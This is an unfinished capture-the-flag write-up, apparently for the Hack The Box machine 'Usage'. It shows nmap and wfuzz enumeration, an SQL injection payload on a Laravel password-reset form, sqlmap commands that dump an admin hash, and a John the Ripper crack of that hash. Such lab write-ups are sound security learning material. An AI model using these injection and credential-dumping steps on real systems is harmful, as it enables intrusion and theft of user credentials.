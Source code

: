 # ROOM
Usage from HTB :)

I want to write  this writeup in english this time :)

# Information gathering
This is a website, with login, register and admin page.

As we can see in cookie, it using laravel. And that all.
# Enumeration
## Nmap
We're gonna scan the attack surface using nmap
```
nmap -sC -sV $TARGET -p -o nmap.txt
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 04:00 EDT
WARNING: Running Nmap setuid, as you are doing, is a major security risk.

Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Daily Blogs
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 292.50 seconds
```
## Wfuzz
Using wfuzz, we can see they have only 1 avaible subdomain
```
wfuzz -c -u http://usage.htb -H "Host: FUZZ.usage.htb" -w /home/kali/Wordlist/subdomains-top1million-5000.txt --hc 301
```
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://usage.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                               
=====================================================================

000000024:   200        88 L     226 W      3304 Ch     "admin"                                                                                               

Total time: 12.70573
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 392.6572
```
## Manual search
After trying multiple things, i found a field vulnerable to SQL injection in reset password page.

This payload :
```
bleh@bleh.com' AND 1=1;-- -
```
Return :
```
We have e-mailed your password reset link to bleh@bleh.com' AND 1=1;-- - 
```
Wich means its vulnerable.

# Exploitation
With SQL Map, we're gonna try to exploit the SQL injection to get some credentials or other usefull stuff.

I catch the request using burpsuite:
```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IlI1T3JPcXY3M213Y3ZYdzg3V2gvM3c9PSIsInZhbHVlIjoiVllIVGUvclV3ajZ6dnREc2xLVHNrMGNuMERHSS8rc0tzdmwzb2YybFBzVkM5N29NYTVwVHMzdGVpYmU4VkpYSjlCaFQrSGRvTlVhWk5ma1liZzAvRDFjMzN3R3djeXBZTXI0c0RIbXgyMTZMU0ROVkVVdUgwemZNT21XYnZESlEiLCJtYWMiOiI4MmEzZWViZDYzMjVlNWUyMTgxYTY1ZmFkODExODQ3MGEyYzE4Y2M4MzEwN2ViMjE1NDgxNjEwNDRiMGU3NmQxIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ik8va1UrVWFQSVZUeE40aDRkbTNZZXc9PSIsInZhbHVlIjoiTFNUd1VScDhNZmJSQXAxaTRiR2t3NktSaTYzQXk0M0pEa0pGUjJFc2VrOTNYOTcyU0ZFU3JLVTRPWnQreGgva01zRDZQNlBmZnlqRUJQY25jMUNwdzkwUDZ4V01xNFptUlA2RSs3WFUydFg2d2xPT292Rm5zdklkZ0h2TXJoQVUiLCJtYWMiOiIxNjgwZGYwMTQzMTY3OWY3ZWUzYzJkMWVlMWZiM2ExZThiMGUxOTM3OGE0MGI0ZGI5MjE1NDAzZjFhZmVlMTA1IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=hK2lIyI4ojEn9lACt8ogdKKBepGlCFp0WaEC5Ssh&email=test
```
Save it to file (like req.txt) then use sqlmap. Its a challenge, so we dont care about the risk or other sneaky parameters.
```
sqlmap -r req.txt -p email -bash --dump-all
```
It found some usefull stuff but it can't dump the admin_users :
```
[08:55:07] [ERROR] unable to retrieve the number of columns for table 'admin_users' in database 'usage_blog'
[08:55:07] [WARNING] unable to retrieve column names for table 'admin_users' in database 'usage_blog'
[08:55:07] [WARNING] unable to enumerate the columns for table 'admin_users' in database 'usage_blog'
```
We're gonna try to dump **admin_users**, i added --dbms to be more accurate because now we knew it use MySQL.
```
sqlmap -r req.txt -p email --batch --dbms=MySQL -T admin_users --dump
```
```
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
```
We have the name, the token etc. but no password. We're gonna try to get the password column now
```
sqlmap -r req.txt -p email --batch --dbms=MySQL -T admin_users -C password --dump
```
```
+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+--------------------------------------------------------------+
```
Finally !

Now, we need to crack it.
```
john --wordlist=/home/kali/Wordlist/rockyou.txt hash  
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:11 DONE (2024-04-29 09:57) 0.08888g/s 144.0p/s 144.0c/s 144.0C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
So, here the admin account :
```
Administrator
whatever1
```
# Post exploit

**NOT FINISH YET**
**The admin account doesnt work and i dont know why. i'm working on it !** 
